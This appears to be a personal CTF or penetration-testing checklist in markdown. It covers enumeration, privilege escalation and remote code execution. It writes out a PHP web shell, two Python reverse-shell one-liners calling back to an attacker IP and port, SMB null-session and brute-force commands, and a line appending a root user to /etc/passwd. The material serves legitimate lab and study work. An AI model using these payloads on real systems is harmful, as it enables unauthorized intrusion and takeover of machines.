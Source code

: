 # Checklist

<details>
  <summary>Preparation</summary>
	- [ ] Find IP of the machine
		- [ ] `export IP=<MACHINE_IP>`
		- [ ] `export MACHINE_NAME=<MACHINE_NAME>`
	- [ ] Set folder structure
		- [ ] `cd ctf/`
		- [ ] `mkdir -p $MACHINE_NAME/enum`
		- [ ] `mkdir -p $MACHINE_NAME/files`
		- [ ] `touch $MACHINE_NAME/enum/users.txt`
		- [ ] `cp templates/report.md ctf/$MACHINE_NAME/${MACHINE_NAME}.md`
	- [ ] Set hostname in etc/hosts (if helps)
</details>


<details>
  <summary>Enumeration</summary>

	- [ ] Enum
		- [ ] Nmap
			- [ ] [Howto](active-information-gathering/nmap.md)
				- [ ] Copy key findings to report
				- [ ] check results
				- [ ] Paste to [report](templates/report.md)
				- [ ] Highlight exploitables/targets
		- [ ] Rustscan
			- [ ] check results
	  - [ ] `enum4linux $IP` -> users, share, comon structure, server block.
	    - [ ] Highlights
	      - [ ] check results
	      - [ ] Check SMB null session
	      - [ ] system level users
		- [ ] nmap-nse
			- [ ] [Howto](active-information-gathering/nmap.md#nmap-nse)
		- [ ] smb/netbio-ssn
			- [ ] Ports [139, 445]
			- [ ] `mkdir smb`
			- [ ] `nmap -p139,445 --script=smb-enum-shares $IP`
				- [ ] `smbclient //<IP>/IPC$ -N (/ADMINS/)` -> N: smb null session.
				- [ ] smbclient //'IP'/qui -N
				- [ ] crackmapexec
				- [ ] mfsconsole > use auxilaiary(scanner/smb/smb_login) > set pass rockyou.
			- [ ] `smbmap -H $IP`
			- [ ] `smbclient --no-pass -L //$IP`
			- [ ] `smbclient --no-pass \\\\$IP\\anonymous`
			- [ ] `smbclient \\\\$IP\\ITDEPT anonymous` [Tested]
			- [ ] `mget file.name`
			- [ ] `smbmap -u <user> -p <PassWord> -H $IP`
			- [ ] `smbclient //'IP'/<share> -U'user'%'password'`
			- [ ] `smbclient //$IP/secured -U <user>%<password> -c "prompt OFF;recurse ON;mget *"`
		- [ ] ssl/pop3 [110]
		- [ ] ssl/imap [993/143]
		- [ ] Apache Tomcat [8080]
			- [ ] Read Version
			- [ ] Check URL (hints)
			- [ ] default credentials
			- [ ] mfsconsole /is it allowed?
		- [ ] Domain [53]
		- [ ] Web Enum
			- [ ] Load each targetted port in browser
			- [ ] export PORT=80
			- [ ] `dirb http://$IP:$PORT/ -r`
			- [ ] `nikto --host http://<IP> -C all` :: tool for webapp
			- [ ] `export URL=${IP}:8080/FUZZ` or `export URL=${IP}:8080/FUZZ/`
				- [ ] HTTPS you will want to include protocol too
				- [ ] `wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-files.txt --hc 404 "$URL"`
			- [ ] `gobuster dir -u http://$IP -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt`  :: helpful during bruteforce
			- [ ] framework/server/service -> searchexploit
			- [ ] Check for config through URL's like
			- [ ] hostname/username/re-use etc
			- [ ] LFI
				- [ ] check for ssh keys
				- [ ] check for service/app configuration file (e.g: /etc/tomcat7/tomcat-users)
				- [ ] vsftpd -> upload, to rce from upload file
			- [ ] RFI
				- [ ] rev shell
					- [ ] https://www.revshells.com/
					- [ ] `python -c 'import pty;pty.spawn("/bin/bash")'`
			- [ ] `linpeas.sh`
			- [ ] CUPS Http `631`
		- [ ] SSH
			- [ ] hydra
				- [ ] [Howto](tools/bruteforce/ssh/hydra)
		- [ ] `curl -A "GoogleBot" http://$IP/robots.txt`
		- [ ] searchsploit
		- [ ] Port knocking
			- [ ] nmap port knock 
	- [ ] /cgi-bin
		- [ ] shellshock [Howto](foothold/shellshock)
	- [ ] morse code?
</details>


<details>
	<summary>Privilege Escalation</summary>
	- [ ] privileges escalation
		- [ ] `sudo -l`
		- [ ] password re-use
			- [ ] from credentials founds in enum
			- [ ] `su - <user>`
				- [ ] ***Stabilize Shell $***
					- [ ] `which python` -> python is here
					- [ ] `python -c 'import pty; pty.spawn("/bin/bash")'` -> import valid tty
					- [ ] `tty` quick test 
					- [ ] `export TERM=xterm-256color`  ⇾ export our terminal
					- [ ] `alias ll='clear ; ls -lsaht --color-auto'` ⇾ export ll command
					- [ ] `stty raw -echo; fg; reset` -> stable shell by control Z & backgrounding it
					- [ ] `stty columns 200 rows 200`
			- [ ] e.g: `sudo /usr/bin/mysql -e '\! /bin/sh'`  [sudo nopass for mysql](https://gtfobins.github.io/gtfobins/mysql/#sudo)
		- [ ] `netstat -tupanl | grep -i '127.0.0.1'` -> anything running on loopback
		- [ ] `find / -perm -u=s -type f 2>/dev/null` 
			- [ ] *_The first step is to identify all programs or files that have SUID bits enabled_*
				- [ ] example
					- [ ] /usr/bin/zsh
			- [ ] Read Source Code (if any)
			- [ ] look for files owned by root grouped by user.
			- [ ] `ps aux | grep -i 'root' --auto-color` <-- anything running as root?
				- [ ] lateral machines? (not done anything like this)
				- [ ] private ip address? (not done anything)
				- [ ] web root -> any db credes?
		- [ ] Take advantage of this misconfiguration by abusing the PATH variable
		- [ ] Take advantage of misconfigured cronjob.
		- [ ] `find / -perm -u=g -type f 2>/dev/null` -> Are there any GUID
		- [ ] simple HTTP server
			- [ ] download pspy
			- [ ] Second shell -> `pspy<BIT>`
			- [ ] `getcap -r / 2>/dev/null` -> Are there any extended permissions
			- [ ] exploit miss-configuration
		- [ ] writeable `passwd`?
			- [ ] `perl -le 'print crypt("PassWord","addedsalt")'`
			- [ ] `echo "nullBrain:saltedvaluefromabove:0:0:User_like_root:/root:/bin/bash" >> /etc/passwd`
		- [ ] `kernel exploits?`
			- [ ] e.g Dirty Cow [example HowTo](practical/dirty_cow)

</details>


<details>
  <summary>Remote Code Execution (RCE)</summary>
	- [ ] Remote Code Execution
		- [ ] `<?php system($_GET['cmd']);?>`
		- [ ] Verify RCE
			- [ ] e.g : `http://$IP/<path>/?lang=/var/ftp/pub/backdoor.php&cmd=id`.`
			- [ ] Payload:
				- [ ] https://github.com/nullbr41n/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
				- [ ] payload converter (hURL)
				- [ ] `python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'`
				- [ ] `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
</details>


<details>
  <summary>Reverse Shell</summary>

	- [ ] Reverse Shell
		- [ ] web uploads
			- [ ] `nc - nlvp 1` `Listening on port 1`
			- [ ] Upload payload on other side, should open connection
			- [ ] check RCE section.
				- [ ] ***Stabilize Shell $***
					- [ ] `which python` -> python is here
					- [ ] `python -c 'import pty; pty.spawn("/bin/bash")'` -> import valid tty
					- [ ] `tty` quick test
					- [ ] `export TERM=xterm-256color`  ⇾ export our terminal
					- [ ] `alias ll='clear ; ls -lsaht --color-auto'` ⇾ export ll command
					- [ ] `stty raw -echo; fg; reset` -> stable shell by control Z & backgrounding it
					- [ ] `stty columns 200 rows 200`

</details>